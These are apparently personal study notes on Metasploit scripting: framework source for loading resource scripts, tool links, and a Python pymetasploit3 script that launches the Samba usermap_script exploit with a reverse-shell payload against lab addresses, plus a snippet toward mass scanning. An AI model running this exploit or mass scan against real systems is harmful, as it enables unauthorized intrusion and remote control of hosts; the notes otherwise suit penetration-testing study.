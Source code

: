 ```yaml
---
title: Metasploit scripting and more
created: '2024-03-31T04:25:36.000Z'
modified: '2024-05-30T07:14:57.468Z'
---
```


# Metasploit scripting and more

you typically need to do this before importing useful metasploit ruby libraries:

```ruby
$LOAD_PATH << './lib'
require 'rex'
require 'msf'
require 'msfenv'
```

the way metasploit loads resource script:

```ruby
# file: lib/msf/base/sessions/command_shell.rb
  def execute_file(full_path, args)
    if File.extname(full_path) == '.rb'
      Rex::Script::Shell.new(self, full_path).run(args)
    else
      load_resource(full_path) # usually *.rc files
    end
  end

```

the `Shell.new`:

```ruby
# lib/rex/shell/base.rb
  def run(args=[])
    self.args = args = args.flatten
    begin
      eval(::File.read(self.path, ::File.size(self.path)), binding )
    rescue ::Interrupt
    rescue ::Rex::Script::Completed
    rescue ::Exception => e
      self.error = e
      raise e
    end
  end

```
the  `load_resource`:

```ruby
# file: lib/rex/ui/text/resource.rb

# -*- coding: binary -*-
require 'erb'

module Rex
module Ui
module Text

module Resource

  # Processes a resource script file for the console.
  #
  # @param path [String] Path to a resource file to run
  # @return [void]
  def load_resource(path)
    if path == '-'
      resource_file = $stdin.read
      path = 'stdin'
    elsif ::File.exist?(path)
      resource_file = ::File.read(path)
    else
      print_error("Cannot find resource script: #{path}")
      return
    end

    # Process ERB directives first
    print_status "Processing #{path} for ERB directives."
    erb = ERB.new(resource_file)
    processed_resource = erb.result(binding)

    lines = processed_resource.each_line.to_a
    bindings = {}
    while lines.length > 0

      line = lines.shift
      break if not line
      line.strip!
      next if line.length == 0
      next if line =~ /^#/

      # Pretty soon, this is going to need an XML parser :)
      # TODO: case matters for the tag and for binding names
      if line =~ /<ruby/
        if line =~ /\s+binding=(?:'(\w+)'|"(\w+)")(>|\s+)/
          bin = ($~[1] || $~[2])
          bindings[bin] = binding unless bindings.has_key? bin
          bin = bindings[bin]
        else
          bin = binding
        end
        buff = ''
        while lines.length > 0
          line = lines.shift
          break if not line
          break if line =~ /<\/ruby>/
          buff << line
        end
        if ! buff.empty?
          print_status("resource (#{path})> Ruby Code (#{buff.length} bytes)")
          begin
            eval(buff, bin)
          rescue ::Interrupt
            raise $!
          rescue ::Exception => e
            print_error("resource (#{path})> Ruby Error: #{e.class} #{e} #{e.backtrace}")
          end
        end
      else
        print_line("resource (#{path})> #{line}")
        run_single(line)
      end
    end
  end

end

end
end
end

```

---

vulnerability scanners:

https://dradis.com/ce/

nessus

nexpose

openvas

---

[metasploit-framework](https://rubygems.org/gems/metasploit-framework) is a ruby gem.

---

https://www.infosecmatter.com/metasploit-module-library/

https://rubyfu.net/module-0x5-or-exploitation-kung-fu/metasploit/auxiliary-module

---

[mad-metasploit](https://github.com/hahwul/mad-metasploit) custom metasploit scripts

---

[metasploit unleashed](https://www.offsec.com/metasploit-unleashed/)

[official metasploit documentation](https://docs.metasploit.com/)

---

metasploit has enabled ssl by default. http will not work.

install package:

```bash
pip3 install pymetasploit3
```

launch metasploit background rpc service:
```bash
# get help
msfrpcd -h
# start background service
msfrpcd -P lazero
# or if you want foreground service
msfrpcd -P lazero -f
```


run script:

```python
from pymetasploit3.msfrpc import MsfRpcClient
import os

PWD = "lazero"

custom_module_path = "custom_msf_module"
assert os.path.exists(custom_module_path), (
    "Custom module path not found at: '%s'" % custom_module_path
)

# write custom python modules with:
# https://docs.metasploit.com/docs/development/developing-modules/external-modules/writing-external-python-modules.html


client = MsfRpcClient(
    password=PWD, ssl=True
)  # requires ssl by default. otherwise won't work

# the module structure must be identical to the one at , otherwise it will not load.
client.core.addmodulepath(os.path.abspath(custom_module_path))

exploit_id = "multi/samba/usermap_script"
exp_mod = client.modules.use("exploit", exploit_id)

RHOST = "172.16.194.172"
LHOST = "172.16.194.163"

exp_mod.runoptions["RHOST"] = RHOST  # this host is not running.
exp_mod.runoptions["PAYLOAD"] = "cmd/unix/reverse"
exp_mod.runoptions["LHOST"] = LHOST

msf_console = (
    client.consoles.console()
)  # you can manually read/write instead of using below method.
# timeout: 301 seconds.
exploit_run_output = msf_console.run_module_with_output(exp_mod)  # str
print(exploit_run_output)  # now have output. but still it is not streaming.
# you may want to overwrite the original implementation. the data is actually produced step by step.

run_output_file = "samba_usermap_script_output.log"
with open(run_output_file, "w+") as f:
    f.write(exploit_run_output)
print("[metasploit]", "output file saved at:", run_output_file)
# thank you very much.

```

---

To do mass scanning, first we need to obtain the default RPORT for each exploit.

```python
module_types = ['exploits','auxiliary', "encoders", "nops", "payloads", 'post']

for mt_plural in module_types:
    module_type = mt_plural.rstrip('s')
    for name in all_module_names:
        mod = client.modules.use(module_type, name)
        # get default RPORT
        default_rport = mod.runoptions.get("RPORT", None)
```

